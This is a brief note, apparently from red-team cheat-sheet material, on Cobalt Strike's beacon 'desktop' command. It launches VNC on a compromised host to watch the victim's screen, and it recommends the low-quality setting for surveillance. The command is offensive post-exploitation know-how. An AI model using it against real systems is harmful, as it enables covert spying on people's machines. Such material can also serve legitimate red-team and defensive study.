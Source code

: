 # Cobalt Strike

Launch a VNC client to spy the target. My recommendation is use `low` quality option to get better surveillance on the target. Unless you want to see the actual contents then set to `high`.

```
beacon> desktop <pid> <arch> [low | high]
```
